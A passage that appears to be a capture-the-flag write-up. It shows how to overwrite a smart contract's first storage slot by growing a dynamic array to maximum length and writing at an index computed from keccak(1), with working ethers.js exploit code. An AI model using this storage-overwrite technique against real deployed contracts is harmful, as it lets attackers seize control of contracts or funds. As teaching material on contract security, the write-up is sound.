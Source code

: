 Concretely, the contract's storage looks like this:

```python
slot 0: isComplete
slot 1: map.length
// ...
slot keccak(1): map[0]
slot keccak(1) + 1: map[1]
slot keccak(1) + 2: map[2]
slot keccak(1) + 3: map[3]
slot keccak(1) + 4: map[4]
// ...
```

Note that the array items wrap around after they reached the max storage slot of `2^256 - 1`.
Using a bit of math we can find the `map` index that writes to the `isComplete` variable at storage slot 0:

```bash
need to find array index that maps to 0 mod 2^256
i.e., keccak(1) + index mod 2^256 = 0
<=> index = -keccak(1) mod 2^256
 => index = 2^256 - keccak(1) as keccak(1) is in range
```

To solve this challenge, we first need to expand the `map`'s length to cover all `2^256 - 1` storage slots.
Then we set the map of the computed index overwriting the first storage slot.

```javascript
// all of contract storage is a 32 bytes key to 32 bytes value mapping
// first make map expand its size to cover all of this storage by setting
// key = 2^256 - 2 => map.length = 2^256 - 2 + 1 = 2^256 - 1 = max u256
// this bypasses bounds checking
tx = await contract.set(
  BigNumber.from(`2`)
    .pow(`256`)
    .sub(`2`),
  `0`
)
await tx.wait()

// map[0] value is stored at keccak(p) = keccak(1)
// needs to be padded to a 256 bit
const mapDataBegin = BigNumber.from(
  ethers.utils.keccak256(
    `0x0000000000000000000000000000000000000000000000000000000000000001`
  )
)
// need to find index at this location now that maps to 0 mod 2^256
// i.e., 0 - keccak(1) mod 2^256 <=> 2^256 - keccak(1) as keccak(1) is in range
const isCompleteOffset = BigNumber.from(`2`)
  .pow(`256`)
  .sub(mapDataBegin)

tx = await contract.set(isCompleteOffset, `1`)
await tx.wait()
```
